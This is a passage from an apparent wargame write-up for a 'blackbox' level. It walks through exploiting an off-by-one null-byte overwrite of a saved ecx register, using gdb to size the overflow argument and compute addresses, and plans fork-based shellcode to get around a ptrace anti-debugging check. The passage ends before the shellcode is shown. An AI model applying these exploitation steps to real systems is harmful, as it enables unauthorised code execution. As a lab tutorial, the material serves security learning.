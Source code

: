 Now suppose this scenario:

* We supply a very long, yet to be determined, argument to the program.
* The important thing is that we want `ecx` to be `0xbfff0100`.
* This will make `strlen` stop when it reaches the LSB of the stored `ecx`, which means that a new `0x0` byte will be written on the second byte of the stored `ecx`, resulting in `0xbfff0000`, which is an address 256 bytes lower than the original `ecx`.
* That address is actually an address inside `buf`.
* When at the end of `main`, that address (-4) will be loaded into `esp`, we can make sure that it contains the address of the bottom of `buf`.
* The bottom of `buf` itself will contain a shellcode.

So, let's analyze how ecx might be affected. First, let's see what's its value is without any arguments:

```
level7@blackbox:~$ gdb heybabe
GNU gdb 6.4.90-debian
...
(gdb) b main
Breakpoint 1 at 0x8048473
(gdb) run
Starting program: /home/level7/heybabe 

Breakpoint 1, 0x08048473 in main ()
(gdb) x/a $ebp-8
0xbfffda80: 0xbfffdaa0
We would like that to be 0xbfff0100. So let's try with an argument 0xbfffdaa0-0xbfff0100=0xd9a0 bytes long:
(gdb) run `python -c "print 'a'*0xd9a0"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/level7/heybabe `python -c "print 'a'*0xd9a0"`

Breakpoint 1, 0x08048473 in main ()
(gdb) x/a $ebp-8
0xbfff00e0: 0xbfff0100
```

Good. You can also see that `ebp-8=0xbfff00e0` so `ebp=0xbfff00e8`.

This means that the tampered `ecx` will point to `ebp-0xe8`. So, 4 bytes blow that, at `ebp-0xec`, we should prepare the address `ebp-0x3f0=0xbffefcf8`.

Now that we have the structure of the payload figured out, we need to figure out the payload.

Remember that the call to `ptrace` with `PTRACE_TRACEME` will make the process stop before any call to `execve`.

How can we circumvent that? Well, the `ptrace` is active only on the process that called it, so if we were to `fork`, the child process will not be traced, and can do whatever it wants without any limitations.
So what the shellcode needs to do is fork, the child should call `execve`, and the parent should `wait` for the child (this way we can interact with the shell and not cause it to just run in the background).
We want out shellcode to be the equivalent of the following C code:
